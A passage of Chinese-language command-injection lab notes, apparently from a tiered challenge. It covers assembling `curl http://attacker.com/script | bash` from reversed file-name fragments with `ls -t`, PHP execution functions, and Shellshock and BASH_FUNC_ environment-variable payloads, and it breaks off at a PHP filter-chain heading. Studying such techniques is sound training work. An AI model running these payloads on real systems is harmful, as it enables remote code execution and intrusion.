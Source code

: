 **示例：反向 Shell 脚本组装 (概念性):**

目标：执行 `curl http://attacker.com/script | bash`

1.  将命令分解成小的、反向排序的部分：`bash`, `|`, `script`, `/`, `com`, `.`, `attacker`, `//`, `http`, `curl`。
2.  使用重定向 (`>partN`) 将每个部分写入文件。
    ```bash
    >bash # (5 字符)
    >\|\  # (3 字符) - 可能需要转义或引号
    >ipt  # (4 字符)
    >scr  # (4 字符)
    # ... 等等，按相反顺序 ...
    >curl # (5 字符)
    ```
3.  使用 `ls -t > final_script` 将各部分按正确顺序组装到 `final_script` 中。
4.  执行 `sh final_script`。

*(注意：用户原始笔记详细说明了一个更复杂的 `socat` 监听器和多部分 IP 地址分解，遵循相同的反序写入和使用 `ls -t` 组装的原则)*

---

## Level 7 - PHP 命令执行函数 & 环境变量注入

更多的 PHP 函数和基于环境的攻击。

**PHP 执行函数:**

* **`system()`**: 执行外部程序并显示输出。
* **`exec()`**: 执行外部程序。不直接输出；返回输出的最后一行，并能用所有输出行填充一个数组。
* **`shell_exec()` / `` ` `` (反引号)**: 通过 Shell 执行命令并返回完整的输出作为字符串。
* **`passthru()`**: 执行外部程序并显示原始输出。用于期望二进制输出的情况。

**环境变量注入 (Shellshock 及相关):**

如果目标系统的 Bash 存在漏洞（例如 Shellshock 或 `BASH_FUNC_*` 问题），当调用脚本或程序（如 PHP 调用 Shell）时，特制的环境变量可能导致命令执行。

* **Shellshock (Bash < 4.3 补丁):**
    ```bash
    TEST='() { :; }; echo vulnerable; id' bash -c "echo test"
    ```
* **`BASH_FUNC_` 前缀滥用 (Bash < 4.4):**
    ```bash
    env $'BASH_FUNC_echo()=() { id; }' bash -c "echo hello"
    ```
* **`BASH_FUNC_` 后缀滥用 (Bash >= 4.4):**
    ```bash
    env $'BASH_FUNC_echo%%=() { id; }' bash -c 'echo hello'
    ```

---

## Level 8 - PHP Filter Chain Exploit (PHP 过滤器链利用)
